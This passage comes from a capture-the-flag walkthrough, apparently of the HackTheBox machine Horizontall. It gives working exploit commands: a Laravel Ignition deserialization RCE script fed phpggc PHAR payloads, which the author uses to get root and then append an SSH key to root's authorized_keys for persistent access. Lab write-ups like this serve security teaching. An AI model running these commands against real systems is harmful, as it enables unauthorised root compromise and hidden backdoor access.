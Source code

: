     000001a0: 6d79 0400 0000 af3f 0861 0400 0000 0c7e  my.....?.a.....~
    000001b0: 7fd8 a401 0000 0000 0000 0800 0000 7465  ..............te
    000001c0: 7374 2e74 7874 0400 0000 af3f 0861 0400  st.txt.....?.a..
    000001d0: 0000 0c7e 7fd8 a401 0000 0000 0000 7465  ...~..........te
    000001e0: 7374 7465 7374 d9ed c52a 4925 ac5f 19e8  sttest...*I%._..
    000001f0: 09c7 8a82 9975 1ffa 2a30 0200 0000 4742  .....u..*0....GB
    00000200: 4d42



The command, `id`, is on line 0x000000f0.

Now I'll run the Python script, passing it the serialized payload:



    oxdf@hacky$ python3 /opt/laravel-exploits/laravel-ignition-rce.py http://127.0.0.1:8000 id.phar 
    + Log file: /home/developer/myproject/storage/logs/laravel.log
    + Logs cleared
    + Successfully converted to PHAR !
    + Phar deserialized
    --------------------------
    uid=0(root) gid=0(root) groups=0(root)
    --------------------------
    + Logs cleared



It works, and is running as root!

#### Shell

I'll regenerate a new payload, this time creating `/root/.ssh` if it
doesn't exist, and then writing my SSH key to `authorized_keys`:



    oxdf@hacky$ php -d'phar.readonly=0' /opt/phpggc/phpggc --phar phar -o ssh.phar --fast-destruct monolog/rce1 system 'mkdir -p /root/.ssh; echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys'



Run the exploit again:



    oxdf@hacky$ python3 /opt/laravel-exploits/laravel-ignition-rce.py http://127.0.0.1:8000 ssh.phar
    + Log file: /home/developer/myproject/storage/logs/laravel.log
    + Logs cleared
    + Successfully converted to PHAR !
    + Phar deserialized
    Exploit succeeded
    + Logs cleared



I'm now able to connect as root:



    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@10.10.10.125
    ...[snip]...
    root@horizontall:~# 
